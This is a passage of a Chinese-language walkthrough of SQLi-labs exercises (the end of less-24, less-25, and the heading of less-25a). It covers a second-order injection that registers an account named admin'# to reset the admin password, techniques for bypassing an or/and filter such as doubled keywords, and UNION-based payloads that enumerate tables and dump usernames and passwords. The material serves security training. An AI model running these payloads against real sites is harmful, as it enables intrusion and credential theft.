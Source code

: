 ##### 注入步骤

原理：

- 注册了一个admin'#的账号，修改该账号密码使传入的SQL语句就变为修改admin的密码，因为'#在语句中相当于#注释后面原有的单引号，'闭合前面的语句，就变为修改admin的密码了，这样就可以登录管理员账号来获取数据了`
- UPDATE users SET PASSWORD='new_pass' where username='admin'#' 就相当于执行 `UPDATE users SET PASSWORD='new_pass' where username='admin'`语句。就成功修改了admin的密码

## less-25

##### 注入类型

过滤了`or` 和`and`

##### 绕过方法：

- 大小写变形 Or，OR oR	
- 双写绕过（将or或and(过滤字符)替换为空的时候就可以使用双写绕过）
- 编码绕过 hex，urlencode
- 添加注释符/*or\*/
- 利用符号 and=&&   or=||

##### 输入点

输入`id=1'`回显如下，所以可知对id做了'id'的处理。

![image-20201115130321790](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114724.png)

##### 输出点：

输入payload`id=1' or 1=1--+`，回显如下过滤了，and。同样也过滤了or。所以我们需要绕过and和or。(这里直接将and和or替换为空)![image-20201115130602826](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114725.png)

payload：`?id=-1' oorr 1=1--+`采用双写来绕过or

![image-20201115130939368](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114726.png)

##### 注入方式

采用双写来绕过过滤，然后再使用 union联合查询来注入

##### 注入步骤

- 判断列数`payload:	` 4的时候页面回显报错，所以判断出列数为3列(通过select来判断)
- 联合查询，判断各列输出的位置`payload:?id=-1' union select 1,2,3 --+`
- 获取数据库`payload:?id=-1' union select 1,database(),3 --+`
- 爆数据表`payload:?id=-1' union select 1,(select group_concat(table_name) from infoorrmation_schema.tables where table_schema=database()),3 --+`
- 爆users表的数据字段`payload：?id=-1' union select 1,(select group_concat(column_name) from infoorrmation_schema.columns where table_name='users'),3 --+`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id=-1' union select 1,group_concat(username,'~',passwoorrd),3 from users--+`username和password中间使用~来分隔

## less-25a
